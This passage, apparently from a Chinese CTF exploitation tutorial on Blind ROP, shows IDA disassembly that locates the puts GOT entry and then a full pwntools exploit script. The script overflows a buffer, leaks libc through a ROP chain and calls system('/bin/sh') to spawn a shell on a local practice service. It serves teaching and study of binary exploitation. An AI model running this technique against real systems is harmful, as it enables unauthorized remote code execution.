    seg000:0000000000400564                 db  20h
    seg000:0000000000400565                 db    0

然后按下c,将此处的数据转换为汇编指令，如下

.. code:: asm

    seg000:0000000000400560 ; ---------------------------------------------------------------------------
    seg000:0000000000400560                 jmp     qword ptr cs:601018h
    seg000:0000000000400566 ; ---------------------------------------------------------------------------
    seg000:0000000000400566                 push    0
    seg000:000000000040056B                 jmp     loc_400550
    seg000:000000000040056B ; ---------------------------------------------------------------------------

这说明，puts@got的地址为0x601018。

程序利用
~~~~~~~~

.. code:: python

    #length = getbufferflow_length()
    length = 72
    #stop_gadget = get_stop_addr(length)
    stop_gadget = 0x4006b6
    #brop_gadget = find_brop_gadget(length,stop_gadget)
    brop_gadget = 0x4007ba
    rdi_ret = brop_gadget + 9
    #puts_plt = get_puts_addr(length, rdi_ret, stop_gadget)
    puts_plt = 0x400560
    #leakfunction(length, rdi_ret, puts_plt, stop_gadget)
    puts_got = 0x601018

    sh = remote('127.0.0.1', 9999)
    sh.recvuntil('password?\n')
    payload = 'a' * length + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(
        stop_gadget)
    sh.sendline(payload)
    data = sh.recvuntil('\nWelCome', drop=True)
    puts_addr = u64(data.ljust(8, '\x00'))
    libc = LibcSearcher('puts', puts_addr)
    libc_base = puts_addr - libc.dump('puts')
    system_addr = libc_base + libc.dump('system')
    binsh_addr = libc_base + libc.dump('str_bin_sh')
    payload = 'a' * length + p64(rdi_ret) + p64(binsh_addr) + p64(
        system_addr) + p64(stop_gadget)
    sh.sendline(payload)
    sh.interactive()

**参考阅读**

-  http://ytliu.info/blog/2014/09/28/blind-return-oriented-programming-brop-attack-gong-ji-yuan-li/
-  http://bobao.360.cn/learning/detail/3694.html
-  http://o0xmuhe.me/2017/01/22/Have-fun-with-Blind-ROP/
